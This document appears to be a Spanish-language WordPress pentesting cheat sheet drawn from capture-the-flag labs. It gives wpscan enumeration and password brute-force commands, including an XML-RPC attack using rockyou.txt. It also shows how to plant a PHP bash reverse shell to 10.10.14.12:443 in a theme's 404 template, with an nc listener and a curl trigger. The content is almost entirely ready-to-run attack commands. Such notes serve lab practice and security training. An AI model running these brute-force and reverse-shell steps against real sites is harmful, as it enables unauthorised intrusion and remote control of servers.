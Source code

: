 

# ENUM
```shell
wpscan --url 'http://metapress.htb/' -e vp, u, ap, p, vt, at, t, tt, cb, dbe, m

wpscan --url http://192.168.50.244 --enumerate p --plugins-detection aggressive -o websrv1/wpscan
```
*TIP: Buscar en el codigo fuente de cada pagina el "/plugin"*

# BRUTE FORCE
### CON UN USUARIO
```shell
❯ wpscan --url http://apocalyst.htb/ -U falaraki -P list.txt
```
### CON UNA CONTRASEÑA
```shell
❯ wpscan --url http://apocalyst.htb/ -U list.txt -P password
```

### XMLRPC
```shell
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url <http://domainnameoripaddress>
```


# RCE PANEL DE ADMINISTRADOR
```shell
# DENTRO DEL PANEL DE ADMINISTRADOR: /wp-admin/  ->  Apparence --> Editor  --> 404 Theme  --> Edit 
	<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.12/443 0>&1'")?>
	
❯ sudo nc -nlvp 443
❯ curl -s -X GET 'http://apocalyst.htb/?p=404.php'
```